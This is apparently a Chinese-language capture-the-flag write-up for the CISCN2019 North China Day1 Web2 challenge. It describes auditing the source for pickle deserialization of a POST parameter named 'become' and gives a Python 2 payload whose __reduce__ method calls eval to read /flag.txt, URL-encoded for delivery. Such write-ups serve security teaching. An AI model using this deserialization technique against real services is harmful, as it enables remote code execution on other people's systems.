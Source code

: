 pycharm打开对源代码进行代码审计

python漏洞参考：https://github.com/bit4woo/python_sec

对反序列化的关键字（pickle）在项目中进行搜索

![全局搜索反序列化关键字](C:/Users/Admin/Desktop/CTF/python的SSTI&反序列化&字符串/CISCN2019_华北赛区_Day1_Web2/全局搜索反序列化关键字.png)

查看源代码：

post接受传参become，然后将接受到的字符串进行反序列化为对象

我们可以通过构造字符串，为对象的属性和方法进行赋值，构造`payload`。

![源码中发现发现beome](./CISCN2019_华北赛区_Day1_Web2/源码中发现发现beome.png)

构造payload，传输一个对象执行命令执行的方法（这里是python2的代码，必须是Python2的代码）

先构造一个payload对象，里面的reduce方法是python的扩展类型，当对象被反序列化时就会调用__reduce__函数，进行执行命令执行函数，打开`/flag.txt`的文本。

`pickle.dumps()`将对象转化为字符串的格式，然后进行序列化为字符串

`urllib.quote`是将字符串进行url编码（由于在源代码里面进行了url解码，所以这里需要进行事先的编码）

![接受参数](./CISCN2019_华北赛区_Day1_Web2/接受参数.png)

`payload(obiect)`：即payload类继承了object对象（python3里面是默认继承的，Object类是一切类的父类）

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
        return (eval,("open('/flag.txt','r').read()",))

payload_string=pickle.dumps(payload())
payload_url=urllib.quote(payload_string)
print payload_url
```
